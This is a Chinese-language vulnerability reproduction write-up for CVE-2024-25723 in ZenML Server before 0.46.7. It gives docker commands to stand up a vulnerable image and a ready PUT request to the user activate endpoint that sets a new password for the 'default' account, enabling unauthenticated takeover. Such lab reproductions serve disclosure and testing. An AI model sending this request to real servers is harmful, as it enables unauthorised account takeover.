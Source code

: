 # ZenML Server未授权修改用户密码漏洞

​	**ZenML**是一个可扩展的开源 MLOps 框架，用于创建可移植的、生产就绪的机器学习管道。通过将基础设施与代码解耦，ZenML 使整个组织的开发人员能够在开发到生产时更有效地协作。

​	在 0.46.7 之前的 ZenML 版本中发现了一个严重安全漏洞，此漏洞可能允许未经授权的用户通过用户激活功能获取 ZenML 帐户的所有权。问题在于`/api/v1/users/{user_name_or_id}/activate`REST API 端点。现有的用户名以及请求正文中提供的新密码可能会被滥用以获得未经授权的访问。

**受影响的版本：**

0.46.7 以下的所有 ZenML 版本都容易受到攻击，但以下补丁版本除外：（0.44.4、0.43.1、0.42.2）。

参考链接

- https://www.zenml.io/blog/critical-security-update-for-zenml-users
- https://nvd.nist.gov/vuln/detail/CVE-2024-25723



## 漏洞环境

Docker拉取镜像

```
docker pull zenmldocker/zenml-server:0.46.0
```

启动容器

```
docker run -it -d -p 8080:8080 --name zenml zenmldocker/zenml-server:0.46.0
```

![image-20240506104043040](./1.png)



## 漏洞复现

发送如下请求

```
PUT /api/v1/users/default/activate HTTP/1.1
Host: 192.168.160.128:8080
Content-Type: application/json

{"password": "shelter@123456"}
```

![image-20240506104205718](./2.png)

使用用户名default密码shelter@123456进行登录

![image-20240506104710727](./4.png)

![image-20240506104635994](./3.png)